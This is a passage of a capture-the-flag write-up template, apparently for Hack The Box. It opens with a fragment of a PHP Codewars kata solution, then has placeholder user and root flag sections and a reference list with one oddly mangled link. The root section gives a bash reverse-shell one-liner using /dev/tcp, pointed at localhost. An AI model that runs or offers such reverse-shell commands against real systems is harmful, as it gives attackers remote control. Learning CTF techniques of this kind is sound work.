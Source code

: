 ```php
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](./images/root.png)
\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://Figure.com/Wandmalfarbe/pandoc-latex-template](https://Figure.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)